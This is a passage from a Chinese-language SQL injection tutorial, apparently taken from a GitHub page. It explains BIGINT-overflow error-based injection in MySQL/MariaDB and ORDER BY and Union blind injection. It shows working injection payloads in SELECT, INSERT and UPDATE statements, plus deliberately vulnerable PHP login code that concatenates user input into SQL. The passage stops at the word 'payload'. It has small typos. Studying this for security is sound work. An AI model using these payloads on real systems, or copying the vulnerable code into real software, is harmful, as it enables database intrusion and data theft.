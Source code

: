     MariaDB [(none)]> select !(select*from(select user())x);
    +--------------------------------+
    | !(select*from(select user())x) |
    +--------------------------------+
    |                              1 |
    +--------------------------------+
    1 row in set, 1 warning (0.001 sec)
    ```
    因此,只要我们触发溢出错误即可,但是这种方式只适用于较低版本的mysql
    我的MariaDB做了相关保护:
    ```sql
    MariaDB [(none)]> select !(select*from(select user())x) - ~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '!(select #) - ~0'
    ```
    期望的内容被 '#' 代替了.同理,在insert update语句中也可构造溢出:
    ```sql
    insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0 or '', 'Eyre');
   
    update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;
    ```
    参考文章:
    [BIGINT](http://www.vuln.cn/6818)
    [Blind Inject](https://www.cnblogs.com/lcamry/p/5763129.html)

 2. order by注入
    - 盲注
    - 触发报错

    &emsp;&emsp;其实原理与上面类似, 首先熟悉一下order by, 他是mysql中对查询数据进行排序的方法,使用示例:
    ```sql
    select * from 表名 order by 列名(或者数字) asc；升序(默认升序)
    select * from 表名 order by 列名(或者数字) desc；降序
    ```

    &emsp;&emsp;这里的重点在于order by后既可以填列名或者是一个数字。举个例子： id是user表的第一列的列名，那么如果想根据id来排序，有两种写法:

    ```sql
    select * from user order by id;
    selecr * from user order by 1;
    ```

    ###### Union盲注
    ```php
    $sql = 'select * from admin where username='".$username."'';
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);
    if(isset($row)&&row['username']!="admin"){
    	$hit="username error!";
    }else{
    	if ($row['password'] === $password){
    		$hit="";
    	}else{
    		$hit="password error!";
    	}
    }
    ```
    payload
